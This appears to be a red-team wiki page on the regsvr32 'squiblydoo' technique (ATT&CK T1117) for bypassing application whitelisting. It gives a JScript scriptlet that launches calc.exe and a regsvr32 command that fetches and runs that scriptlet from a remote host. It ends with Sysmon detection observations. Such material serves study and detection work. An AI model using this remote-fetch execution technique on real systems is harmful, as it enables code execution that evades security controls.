 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

